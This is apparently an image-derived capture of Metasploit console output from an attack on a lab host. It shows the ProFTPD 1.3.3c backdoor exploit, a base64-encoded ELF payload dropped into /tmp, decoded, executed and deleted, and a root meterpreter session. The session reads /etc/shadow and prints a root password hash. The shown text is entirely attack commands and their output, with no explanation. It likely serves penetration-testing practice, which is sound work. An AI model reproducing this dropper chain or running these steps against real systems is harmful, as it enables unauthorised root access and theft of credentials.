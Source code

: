 ```
[*] Meterpreter session 2 opened (192.87.136.2:4433 -> 192.87.136.3:40292) at 2022-11-04 10:58:04 +0000
[-] Error: Unable to execute the following command: "echo -n f0VMRgEBAQAAAAAAAAAAAAIAAwABAAAAVIAECDQAAAAAAAAAAAAAADQAIAABAAAAAAAAAAEAAAAAAAAAAIAECACABAjPAAAASgEAAAcAAAAAEAAAagpeMdv341NDU2oCsGaJ4c2Al1towFeIAmgCABFRieFqZlhQUVeJ4UPNgIXAeRlOdD1oogAAAFhqAGoFieMxyc2AhcB5vesnsge5ABAAAInjwesMweMMsH3NgIXAeBBbieGZsmqwA82AhcB4Av/huAEAAAC7AQAAAM2A>>'/tmp/qnXtu.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/vUGNo' < '/tmp/qnXtu.b64' ; chmod +x '/tmp/vUGNo' ; '/tmp/vUGNo' & sleep 2 ; rm -f '/tmp/vUGNo' ; rm -f '/tmp/qnXtu.b64'"
[-] Output: "[1] 39"
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > sessions

Active sessions
===============

  Id  Name  Type                   Information                                                       Connection
  --  ----  ----                   -----------                                                       ----------
  1         shell cmd/unix                                                                           192.87.136.2:4444 -> 192.87.136.3:33826 (192.87.136.3)
  2         meterpreter x86/linux  no-user @ victim-1 (uid=0, gid=0, euid=0, egid=0) @ 192.87.136.3  192.87.136.2:4433 -> 192.87.136.3:40292 (192.87.136.3)
```

```
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > sessions 2
[*] Starting interaction with 2...

meterpreter > sysinfo
Computer     : 192.87.136.3
OS           : Ubuntu 18.04 (Linux 5.4.0-125-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > getuid
Server username: no-user @ victim-1 (uid=0, gid=0, euid=0, egid=0)
meterpreter > cat /etc/shadow
root:$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.:18348:0:99999:7:::
daemon:*:18311:0:99999:7:::
bin:*:18311:0:99999:7:::
sys:*:18311:0:99999:7:::
sync:*:18311:0:99999:7:::
games:*:18311:0:99999:7:::
man:*:18311:0:99999:7:::
lp:*:18311:0:99999:7:::
mail:*:18311:0:99999:7:::
news:*:18311:0:99999:7:::
uucp:*:18311:0:99999:7:::
proxy:*:18311:0:99999:7:::
www-data:*:18311:0:99999:7:::
backup:*:18311:0:99999:7:::
list:*:18311:0:99999:7:::
irc:*:18311:0:99999:7:::
gnats:*:18311:0:99999:7:::
nobody:*:18311:0:99999:7:::
_apt:*:18311:0:99999:7:::
```
